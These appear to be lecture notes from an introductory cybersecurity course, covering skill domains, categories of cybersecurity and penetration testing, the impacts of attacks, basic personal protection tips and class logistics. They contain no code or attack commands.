Operations security (OPSEC) is a process that identifies critical information to determine if friendly actions can be observed by enemy intelligence, determines if information obtained by adversaries could be interpreted to be useful to them, and then executes selected measures that eliminate or reduce adversary ...
*Notice this little topic in particular can be greatly expanded...
Each of those components has a huge number of subcomponents. for example:
Networking
IPTABLES
|
PCAP
|
OSI Model
|
TCP
|
BGP
|
SWITCHES
|
VENDORS
|
There is too much information out there for any one person to master. You have to prioritize based on interest and necessity.
[I double majored in Applied math because of the utility that it would give me while applying my CS knowledge. I could have chosen Art, Music, Physics, or any number of other fields to compliment CS]
Different people may choose to specialize in different areas. You may want to become a specialist in one area, and good in closely related areas, or you may want to diversify more to be able to fill a broader set of roles for a client/organization.
Sample Skill levels for a person:
- Networking High
- Sys Admin Medium
- Digital Security Medium
- Audit & Compliance Low
- Forensics Low
- Command Line High
- Reverse Engineering Low
- Cyber Operations Low
Different Job Requirements
Since all of these are interrelated, different jobs will require a different combination of skills. you would need deeper knowledge in several of these domains :
- Penetration testing: Networking / Digital Security/ Command Line/ Cyber Operations
- Privilege Escalation: System Administration/ Command Line/ Reverse Engineering
- Incident Response: Networking/ Forensics/ System Administration/ Command Line/ Audit & Compliance
2021-02-03
What is Cybersecurity?
Cybersecurity are techniques and practices that are designed to protect digital data and infrastructure.
There are related security fields
e.g. information security or even just... security.
There are also categories within cybersecurity:
- Application security - programs including operating system
- Network and infrastructure security - including web/cloud systems
- Intrusion detection
- penetration testing
- Digital forensics and incident response - After the fact, figure out what happened, limit damage, and prevent future incidents
- Endpoint protection and mobile security - protecting end-user devices such as desktops, laptops, and mobile devices
- Data governance, risk and compliance
These are very broad categories, penetration testing for example can be broken down further:
- Physical Pen Testing - Measure the effectiveness of security procedures, training, and controls by attempting physical access to an organization.
- External Pen Testing - Find vulnerabilities that can be exploited by external attackers to access infrastructure or data.
- Internal Pen Testing - Determining the possible impact of an attacker getting different kinds of credientials, and the level of access required to overcome the security.
- Web App Pen Testing - Find technical flaws or vulnerabilities in the web aplications run by an organization
- PCI Pen Testing - Validating security of credit card information.
- Red Teaming - Simulation of a real attack using the same tactics that attacker's would employ. This is a more holistic test.
Why care about learning Cybersecurity?
Jobs! They are paying you to play with computers!*
*if playing with computers means being passionate about learning about a highly technical field and wanting to use this knowledge to do good!
On a more serious note: if you enjoy it there are more jobs than qualified people to take them. They are well paying jobs.
What are possible losses due to a cyber attack?
Let us consider the possible impacts of cyber attacks?
- Financial
- Resource Unavailability / Misuse
- Data Loss
- Identity Theft
- Loss of Trust
What can an individual do to protect themselves?
- Strong Passwords
- Antivirus
- Backup of important Files
- Using encryption and Digital Signatures
- Firewalls and intrusion detection systems
- Regularly Updating OS and applications
- Not revealing too much personal information on social networks
- Awareness of present world security scenarios and new attacks
2021-02-02
Day 1 Logistics:
A google classroom will be created and all students will be given an invite code when that happens.
Homeworks and the smaller non-graded assignments must be done on time for full credit. Submitting blank files that make it look like you did the work will result in negative points. Please submit then verify.
Reasonable extensions are granted based on a medical or otherwise documented reasons for absence.
Labs and projects will be submitted via github. Your work should be tested using the examples given. Non-compiling or non-runnable code will be judged harshly. It is an indication that you didn't care enough to test your work.
It is ok to share testing methodology, but not code for your solutions.
Academic dishonesty...